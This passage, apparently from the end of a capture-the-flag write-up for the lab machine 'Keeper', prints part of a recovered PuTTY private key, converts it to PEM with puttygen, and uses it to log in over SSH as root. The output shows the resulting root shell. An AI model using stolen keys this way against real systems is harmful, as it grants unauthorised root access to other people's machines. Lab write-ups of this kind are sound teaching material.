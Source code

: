 ```bash
k0bbji1no+MUoeMBesYkFfceSHYqXqXCNS6Ve7zjZ7arVAEOn2BNPjmyVz1IZoXH
dtG1XwAAAMEA52KbhNzEteRYrCLP/MH35BXXCrQXrP4RfTyx/J+gc+vyAW11kEjr
n3Ac37bfjIE0GbCZU7rt7+GGNJZdVCVYveSZCbfo/CcWW8hczzNnlymqZsLsixca
pxZViS3TXS5fBfeW1uSC0LTnU6fuTffa2VOiQvGhxRI6MssILSBCiODIfGonVHMu
eyTT1SlqX7KxzDWKQ24PZM00ZXH6ps29mJ3uRvOf+51+pzCEHoG9EgcWIkQj6aK0
zAoayHdiZm/fAAAAwQC3n8+yPxW+5OLwbzxo+eSFEKsNhF3sMOXBRTGNBXpMZD6N
lFKssUrIId1XXmGdhem31fbe2rYceub3iB4w2MzGdzF3lyuFLBywvbwxAyKdLJp3
CpBX6W/7HOdFui9OA4Oxgm0RCOnMtPKvKOT+BqBjXC0C+HfL+SCseEsOGBdfbv+F
x5kfm5SqrZnvJ4eWHPs7wF+Go7Kx1esOvRpIil4eQAOzjXD+S2/usFEFp5CMG5WR
mgxi4GleIXn+wwLPUp8AAADAdZvHx+LFZ7wHC0PcBdCqoX4NnvZ+qogcdGPg4NKR
bCWfI0b0I+cdp4rFVeV8ZshsCnhQLYRSkxubEmmFtKDcL2MvDHN4+IKqqtFseIEB
8U0rE1c85K8lquU+h/rWT4tp8uKN04YpEUVLxjv1k3vUMmeGVSGAu+Juwj2Is643
PaxlmxRaFCiCBwL1fpvL2z5z44K7vzmjUE1+F/GjqCG2pro+xlcoEuQbq5XLDppc
BGpj6b/cE/hMZQWSFg+m1bSO
Private-MAC: 72ae0c890cd9bbef6995546741ee2f2cf2bba0536a55fc09aaf40c63e4de3041
```

Translating the real one from ppk to pem
```bash
puttygen priv.ppk -O private-openssh -o priv.pem
```

Noice
```bash
ssh -i priv.pem root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug 15 01:12:12 2023 from 10.10.14.118
root@keeper:~#
root@keeper:~#
root@keeper:~#
root@keeper:~#
root@keeper:~#
root@keeper:~#
root@keeper:~#
root@keeper:~#
```
